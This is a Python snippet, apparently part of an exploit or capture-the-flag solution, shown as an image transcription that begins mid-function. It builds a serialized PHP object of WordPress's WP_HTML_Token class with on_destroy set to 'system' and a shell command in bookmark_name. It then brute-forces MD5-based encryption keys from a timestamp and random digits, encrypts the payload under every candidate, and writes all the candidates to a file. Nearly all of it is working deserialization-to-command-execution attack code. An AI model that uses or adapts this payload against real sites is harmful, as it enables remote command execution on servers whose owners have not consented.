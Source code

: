 ```python
    encrypted_bytes = base64.b64decode(encrypted)
    
    # Create the cipher and decrypt the text
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_padded = cipher.decrypt(encrypted_bytes)
    
    # Remove the PKCS7 padding
    decrypted_text = unpad(decrypted_padded, AES.block_size).decode()
    
    # Remove the first 2 and the last 2 characters (the random numbers)
    return decrypted_text[2:-2]



serialized_obj = 'O:13:"WP_HTML_Token":2:{s:10:"on_destroy";s:6:"system";s:13:"bookmark_name";s:6:"ls -la";}'
# Convert the given date to a Unix timestamp
target_dt = datetime(2025, 3, 12, 15, 52, 40, tzinfo=timezone.utc)
target_timestamp = int(target_dt.timestamp())

# Define the interval of ±10 seconds around the target timestamp
start_timestamp = target_timestamp - 10
end_timestamp = target_timestamp + 10

print("Starting search...")

found = False
attempts = 0

# Record the start time
start_time = time.time()

with open("hashes.txt", "w") as file:
    # Iterate over all possible timestamps in the interval
    for t in range(start_timestamp, end_timestamp + 1):
        # Iterate over the random numbers: r1, r2, and r3 (from 10 to 99 inclusive)
        for r1 in range(10, 100):
            for r2 in range(10, 100):
                for r3 in range(10, 100):
                    attempts += 1
                    # Build the string by concatenating the values
                    s = f"{r1}{r2}{t}{r3}"
                    # Calculate the MD5 of the string
                    h = hashlib.md5(s.encode()).hexdigest()
                    encrypted = encrypt(serialized_obj, h)
                    # Write the combination and the hash to the file
                    file.write(f"{encrypted} {h}\n")

# Record the end time and calculate the total time
end_time = time.time()
total_time = end_time - start_time

print(f"Total payloads written: {attempts}")
print(f"Time taken: {total_time:.2f} seconds")

```
